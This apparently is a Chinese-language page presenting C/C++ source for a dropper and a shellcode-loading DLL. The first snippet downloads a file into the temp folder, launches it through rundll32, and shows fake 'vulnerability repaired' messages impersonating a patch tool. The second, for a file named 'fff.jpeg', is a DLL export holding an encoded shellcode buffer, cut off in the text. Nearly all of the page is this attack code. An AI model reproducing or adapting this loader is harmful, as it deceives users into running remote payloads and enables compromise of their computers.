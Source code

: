 ```
	ZeroMemory(SaveFile, MAX_PATH);
	GetEnvironmentVariable(TEXT("TMP"), SaveFile, MAX_PATH);

	lstrcatW(SaveFile, FileName);
	if (DownloadFile(URL, SaveFile) != S_OK)
	{
		// wprintf(TEXT("Error: %d \n"), GetLastError());
		MessageBox(NULL, TEXT("修复漏洞失败，请检查网络，是否能够连接到微软服务器！"), TEXT("上海xxx"), MB_ICONWARNING | MB_OK);
		return 0;
	}

	lstrcatW(SaveFile, TEXT(",rundll32dllfun"));
	TCHAR opt[MAX_PATH];
	ZeroMemory(opt, MAX_PATH);
	lstrcatW(opt, TEXT(" "));
	lstrcatW(opt, SaveFile);
	PROCESS_INFORMATION pi;
	STARTUPINFO si = { sizeof(si) };
	si.cb = sizeof(si);
	si.wShowWindow = TRUE;
	CreateProcess(
		TEXT("C:\\Windows\\System32\\rundll32.exe"), 
		opt,
		NULL, 
		NULL, 
		FALSE, 
		CREATE_NEW_CONSOLE,
		NULL,
		NULL, 
		&si, 
		&pi);
	cout << GetLastError() << endl;
	MessageBox(NULL, TEXT("修复漏洞成功！"), TEXT("上海xxx"), MB_OK | MB_ICONINFORMATION);

    return 0;
} 
```

fff.jpeg的代码：

```
// Win32Project6.cpp : 定义 DLL 应用程序的导出函数。
//

#include "stdafx.h"
#include "Win32Project6.h"

typedef void(_stdcall *CODE)();
// 这是导出变量的一个示例
WIN32PROJECT6_API int nWin32Project6=0;

extern "C" _declspec(dllexport) void __cdecl rundll32dllfun(HWND hwnd, HINSTANCE hinst, LPSTR lpszCmdLine,int nCmdShow)
{
	unsigned char buf[] =
		"\xbf\xaa\x57\x39\xb0\xda\xdd\xd9\x74\x24\xf4\x58\x29\xc9\xb1"
		"\xd6\x83\xe8\xfc\x31\x78\x10\x03\x78\x10\x48\xa2\x81\x35\xa2"
		"\x82\x9c\xef\x7f\xc5\x15\x34\x8b\xad\xe6\xfd\xc2\x9d\x38\xbd"
		"\x31\x21\x78\x54\xba\xce\x82\xb4\xcc\xe5\x68\x8e\x22\x28\xd7"
		"\x06\x8c\x96\x0a\x7b\xed\x44\xf0\x94\x65\x0e\xa4\x3b\x2e\xcb"
		"\xe7\x17\x60\xaf\x1d\xa4\x57\x1f\xb1\xf3\x01\x31\x5c\x6a\x97"
		"\xf...省略...";
	PVOID p = NULL;
```